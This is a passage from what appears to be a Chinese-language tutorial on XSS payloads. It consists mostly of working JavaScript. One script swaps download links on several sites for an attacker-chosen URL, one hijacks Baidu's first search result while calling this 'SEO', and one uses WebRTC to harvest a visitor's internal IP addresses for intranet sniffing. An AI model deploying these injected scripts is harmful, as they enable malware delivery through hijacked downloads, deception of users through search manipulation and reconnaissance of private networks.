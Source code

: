 ```javascript
        case downloadWebsite[3]:
            var download1 = document.querySelectorAll(".dlLinks-a a");
            if(download1.length != 0){
                for(var j = 0;j < download1.length;j++){
                    download1[j].href = replaceDownloadUrl;
                }
            }
        break;
        case downloadWebsite[4]:
            var download1 = document.querySelectorAll(".fast_download");
            var download2 = document.querySelectorAll(".normal_download");
            if(download1.length != 0 && download2.length != 0){
                download1[0].href = replaceDownloadUrl;
                download2[0].href = replaceDownloadUrl;
            }
        break;
    }
})()
```

#### 0x3.4 修改百排名
想做SEO的，可以使用此方法：
```javascript
(function(){
    if(location.origin == "https://www.baidu.com" && location.pathname == "/s"){    //当时百度的搜索页面时
        document.querySelectorAll("#content_left h3 a")[0].href = "http://360.cn/"; //替换第一个搜索结果为指定的url地址
    }
})()
```

#### 0x3.4 内网嗅探
这个方法的篇幅比较多，放在下一章说明。下面是利用WebRTC来实现的获取内网IP地址：
```javascript
var ipList = [];
var webrtcxss = {
    webrtc        : function(callback){
        var ip_dups           = {};
        var RTCPeerConnection = window.RTCPeerConnection || window.mozRTCPeerConnection || window.webkitRTCPeerConnection;
        var mediaConstraints  = {
            optional: [{RtpDataChannels: true}]
        };
        var servers = undefined;
        if(window.webkitRTCPeerConnection){
            servers = {iceServers: []};
        }
        var pc = new RTCPeerConnection(servers, mediaConstraints);
        pc.onicecandidate = function(ice){
            if(ice.candidate){
                var ip_regex        = /([0-9]{1,3}(\.[0-9]{1,3}){3})/;
                var ip_addr         = ip_regex.exec(ice.candidate.candidate)[1];
                if(ip_dups[ip_addr] === undefined)
                callback(ip_addr);
                ip_dups[ip_addr]    = true;
            }
        };
        pc.createDataChannel("");
        pc.createOffer(function(result){
            pc.setLocalDescription(result, function(){});
        });
    },
    getIp        : function(){
        this.webrtc(function(ip){
```